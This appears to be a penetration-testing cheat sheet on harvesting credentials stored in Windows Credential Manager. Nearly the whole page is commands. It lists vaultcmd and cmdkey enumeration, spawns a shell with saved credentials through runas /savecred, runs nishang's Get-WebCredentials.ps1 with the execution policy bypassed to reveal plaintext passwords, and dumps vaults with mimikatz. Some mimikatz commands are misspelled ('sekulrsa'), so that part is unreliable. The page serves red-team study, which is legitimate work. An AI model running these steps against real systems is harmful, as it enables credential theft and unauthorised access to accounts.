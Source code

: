 # Credentials Manager

### Resources

1. **MITRE ATT\&CK**

{% embed url="https://attack.mitre.org/techniques/T1555/004/" %}

2. **Additional resources (The Hacker Recipes)**

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/windows-credential-manager" %}

3. **Get-WebCredentials.ps1 (nishang)**

{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1" %}

4. **cmdkey**

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey" %}



### (1) vaultcmd

**1.1** `/list`

By default, Windows has two vaults: **Web** and **Windows machine credentials**. The following command displays the two vaults:

```powershell
C:\> vaultcmd /list
```

**1.2** `/listproperties`

The following commands will list the properties of the web and windows machine credentials respectively:&#x20;

```powershell
C:\> vaultcmd /listproperties:"web credentials"
C:\> vaultcmd /listproperties:"windows credentials"
```

**1.3** `/listcreds`

List more information about the stored credentials (for web and windows machine respectively):

```powershell
C:\> vaultcmd /listcreds:"web credentials"
C:\> vaultcmd /listcreds:"windows credentials"
```

### (2) cmdkey

```powershell
C:\> cmdkey /list
```

### Retrieving/exploiting stored credentials

#### (1) runas.exe&#x20;

We can use the `runas.exe` command to run commands (eg. `cmd.exe`) as a particular user with stored credentials.

```powershell
C:\> runas.exe /savecred /user:<username> <command_to_execute>

# eg. to spawn a command prompt for the username "USER" 
C:\> runas.exe /savecred /user:USER cmd.exe
```

* `/savecred`: Indicates if the credentials have been previously saved by this user
  * This option is required to tell `runas.exe` to pull the stored credentials

#### (2) GetWebCredentials.ps1

The `vaultcmd` and `cmdkey` commands does not provide methods to show the password. Thus, we have to realy on external PowerShell scripts such as [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1):

> Ensure to run powershell with the bypass policy

```powershell
C:\> powershell -ep bypass
C:\> Import-Module Get-WebCredentials.ps1
C:\> Get-WebCredentials

UserName  Resource             Password     Properties
--------  --------             --------     ----------
...
```

### (3) Mimikatz

1. `sekulrsa::credman`&#x20;

```powershell
mimikatz # privilege::debug
mimikatz # sekulrsa::credman 
```

2. `vault::list`, `vault::cred`&#x20;

```powershell
mimikatz # privilege::debug

mimikatz # vault::list 
mimikatz # vault::cred 
```

If error is encountered:

```powershell
mimikatz # token::elevate
```

### Overview of differences between `vaultcmd` and `cmdkey`

1. `vaultcmd /list`&#x20;

a. Displays both the **Web Credentials** and **Windows Credentials**

&#x20;2\. `cmdkey /list`&#x20;

a. Displays the credentials stored under **Windows Credentials** only

b. Displays the entries added via `cmdkey /add` or `runas.exe /savecred` commands

c. The output from the `vaultcmd /list` may overlap with the results from `vaultcmd /listcreds`

